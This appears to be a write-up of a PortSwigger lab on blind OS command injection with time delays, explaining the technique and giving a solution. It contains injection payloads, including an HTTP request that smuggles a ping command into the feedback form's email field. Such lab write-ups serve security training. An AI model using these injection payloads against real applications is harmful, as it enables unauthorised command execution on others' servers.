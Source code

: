# [Lab: Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

## Analysis

You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond. The `ping` command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run:

```bash
& ping -c 10 127.0.0.1 &
```

This command will cause the application to ping its loopback network adapter for 10 seconds.

## Solutions

```http
POST /feedback/submit HTTP/1.1

csrf=NeJ9rb2sc57zR9CPaaGRXfHBhVKYLMby&name=a&email=x||ping+-c+10+127.0.0.1||&subject=a&message=a
```
